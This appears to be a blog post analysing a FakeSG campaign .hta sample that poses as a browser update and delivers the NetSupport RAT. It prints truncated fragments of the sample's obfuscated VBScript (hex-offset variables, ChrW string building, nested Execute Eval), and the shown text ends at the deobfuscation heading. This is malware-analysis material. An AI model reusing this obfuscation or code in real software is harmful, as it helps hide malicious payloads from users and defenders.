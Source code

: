 ```yaml
---
layout: post
title:  "Analyzing FakeSG Malware Campaign Sample"
date:   2023-09-12 00:00:00 +0000
categories: malware
---
```


FakeSG is an ongoing malware campaign (as of 12 Sep 2023). The campaign aims to compromise websites, which imitate the victim's browser update page - prompting the user to install and execute a malicious file.


### 1. Campaign
The FakeSG campaign is known for its heavy obfuscation and payload delivery tactics - opting to HTML Applications `(.hta)` files to ultimately deliver the [NetSupport Manager RAT](https://malpedia.caad.fkie.fraunhofer.de/details/win.netsupportmanager_rat). [(Source)] (https://www.pcrisk.com/removal-guides/27315-fakesg-malware).

In this blog entry, we will analyze a `.hta` instance from the campaign, pulled off [MalwareBazaar](https://bazaar.abuse.ch/sample/4a9f42167f399abfbb42a5ee4d52922eb3f7f1ce88d23824f01d13e50609b8b9/)


<br>
### 2. Obfuscation
Here's a snippet of the embedded VBScript in the `.hta` document. The obfuscation consists of 3 main parts.

A brief explanation of VBScript syntax:
+ `:` separates the next command, like `;` in most other languages.
+ `=` denotes variable assignment.
+ `&H` denotes a hexadecimal number. (`&H10` equals decimal 16).
+ `ChrW()` converts decimal numbers into unicode characters.
+ `&` concatenates strings together.

<br>
{% highlight vbscript %}
<script language="vBsCrIPt">

a70=574 - &H1F8:a117=872 - &H2F3:a110=932 - &H336:a99=711 - &H264:a116=679 - &H233:a105=980 - &H36B:a111=255 - &H90:a110=582 - &H1D8:a32=390 - &H166:a66=684 - &H26A:a99=926 - &H33B:a100=642 - &H21E:a40=925 - &H375:a66=955 - &H379:a121=707 - &H24A:a86=809 - &H2D3:a97=1071 - &H3CE:a108=814 - &H2C2:a32=965 - &H3A5:a71=269 - &HC6:a68=183 - &H73:a66=258 - &HC0:a41=307 - &H10A:a13=994 - &H3D5:a10=241 - &HE7:a32=633 - &H259:a32=320 - &H120:a32=815 - &H30F:a32=265 - &HE9:a32=530 - &H1F2:a32=964 - &H3A4:a32=571 - &H21B:a32=932 - &H384:a32=614 - &H246:a32=320 - &H120:a32=605 - &H23D:a32=394 - &H16A:a32=334 - &H12E:a32=980 - &H3B4:a32=598 - &H236:a32=293 - &H105:a32=874 - &H34A:a32=452 - &H1A4:a32=764 - &H2DC:a68=669 - &H259:a105=755 - &H28A:a109=1095 - &H3DA:a32=840 - &H328:a120=335 - &HD7:a100=585 - &H1E5:a113=1018 - &H389:a13=492 - &H1DF:a10=683 - &H2A1:a32=758 - &H2D6:a32=619 - &H24B:a32=443 - &H19B:a32=620 - &H24C:a32=871 - &H347:a32=513 - &H1E1:a32=992 - &H3C0:a32=719 - &
...
...
res =  ChrW ( a70 ) & ChrW ( a117 ) & ChrW ( a110 ) & ChrW ( a99 ) & ChrW ( a116 ) & ChrW ( a105 ) & ChrW ( a111 ) & ChrW ( a110 ) & ChrW ( a32 ) & ChrW ( a66 ) & ChrW ( a99 ) & ChrW ( a100 ) & ChrW ( a40 ) & ChrW ( a66 ) & ChrW ( a121 ) & ChrW ( a86 ) & ChrW ( a97 ) & ChrW ( a108 ) & ChrW ( a32 ) & ChrW ( a71 ) & ChrW ( a68 ) & ChrW ( a66 ) & ChrW ( a41 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a68 ) & ChrW ( a105 ) & ChrW ( a109 ) & ChrW ( a32 ) & ChrW ( a120 ) & ChrW ( a100 ) & ChrW ( a113 ) & ChrW ( a13 ) & ChrW ( a10 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( a32 ) & ChrW ( 
...
...
Execute Eval("Eval(""Eval(""""Eval(""""""""Eval(""""""""""""""""Eval(""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval(""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""Eval
...
...

Close
</script>
{% endhighlight %}



<br>
### 2. Deobfuscation